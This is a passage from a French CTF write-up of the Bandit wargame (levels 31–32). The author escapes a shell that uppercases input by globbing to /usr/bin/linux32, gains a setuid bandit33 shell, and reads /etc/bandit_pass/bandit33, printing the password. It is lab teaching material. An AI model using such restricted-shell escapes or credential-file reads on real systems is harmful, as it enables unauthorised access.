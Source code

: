```console
remote: 
To ssh://localhost:2220/home/bandit31-git/repo
 ! [remote rejected] master -> master (pre-receive hook declined)
error: failed to push some refs to 'ssh://localhost:2220/home/bandit31-git/repo'
```

## Level 32

On a un shell qui met nos commandes en majuscules :

```console
WELCOME TO THE UPPERCASE SHELL
>> ls
sh: 1: LS: not found
```

J'aurais trop aimé pouvoir utiliser la technique que j'ai découvert via le [Nebula 16]({% link _posts/2023-02-02-Solution-du-CTF-Nebula-(levels-12-a-19).md %}#level-16) malheureusement ça ne fonctionnait pas.

Avec le compte précédent, j'ai cherché un binaire dont le nom a un pattern assez unique et qui me donnerait un shell. J'ai trouvé la commande `linux32` qui fait le job :

```console
bandit31@bandit:~$ /usr/bin/linux32
-sh: 1: /etc/profile.d/colon.sh: Syntax error: Bad function name
$ id
uid=11031(bandit31) gid=11031(bandit31) groups=11031(bandit31)
$ 
bandit31@bandit:~$ ls /usr/bin/?????32
/usr/bin/linux32
bandit31@bandit:~$ ls /???/???/?????32
/usr/bin/linux32
```

Ca marche :

```console
WELCOME TO THE UPPERCASE SHELL
>> /???/???/?????32
-sh: 1: /etc/profile.d/colon.sh: Syntax error: Bad function name
$ id
uid=11033(bandit33) gid=11032(bandit32) groups=11032(bandit32)
$ ls
uppershell
$ ls -al
total 36
drwxr-xr-x  2 root     root      4096 Apr 23 18:04 .
drwxr-xr-x 70 root     root      4096 Apr 23 18:05 ..
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
-rwsr-x---  1 bandit33 bandit32 15128 Apr 23 18:04 uppershell
$ cat /etc/bandit_pass/bandit33
odHo63fHiFqcWWJG9rLiLDtPm45KzUKy
```
